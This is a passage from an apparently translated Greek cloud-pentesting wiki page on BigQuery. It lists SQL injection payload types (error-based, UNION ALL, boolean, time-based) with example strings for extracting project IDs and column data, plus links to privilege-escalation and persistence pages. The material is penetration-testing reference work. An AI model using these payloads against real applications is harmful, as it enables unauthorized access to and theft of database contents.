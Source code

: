 **Τύποι SQL Injection:**

* Βασισμένο σε σφάλματα - casting: `select CAST(@@project_id AS INT64)`
* Βασισμένο σε σφάλματα - διαίρεση με το μηδέν: `' OR if(1/(length((select('a')))-1)=1,true,false) OR '`
* Βασισμένο σε Union (πρέπει να χρησιμοποιήσετε ALL στο bigquery): `UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#`
* Βασισμένο σε Boolean: ``' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#``
* Πιθανώς βασισμένο σε χρόνο - Χρήση δημόσιων συνόλων δεδομένων παράδειγμα: ``SELECT * FROM `bigquery-public-data.covid19_open_data.covid19_open_data` LIMIT 1000``

**Τεκμηρίωση:**

* Λίστα όλων των συναρτήσεων: [https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* Δηλώσεις scripting: [https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting](https://cloud.google.com/bigquery/docs/reference/standard-sql/scripting)

### Κλιμάκωση Δικαιωμάτων & Μετά την Εκμετάλλευση

{% content-ref url="../gcp-privilege-escalation/gcp-bigquery-privesc.md" %}
[gcp-bigquery-privesc.md](../gcp-privilege-escalation/gcp-bigquery-privesc.md)
{% endcontent-ref %}

### Επιμονή

{% content-ref url="../gcp-persistence/gcp-bigquery-persistence.md" %}
[gcp-bigquery-persistence.md](../gcp-persistence/gcp-bigquery-persistence.md)
{% endcontent-ref %}

## Αναφορές

* [https://cloud.google.com/bigquery/docs/column-level-security-intro](https://cloud.google.com/bigquery/docs/column-level-security-intro)

{% hint style="success" %}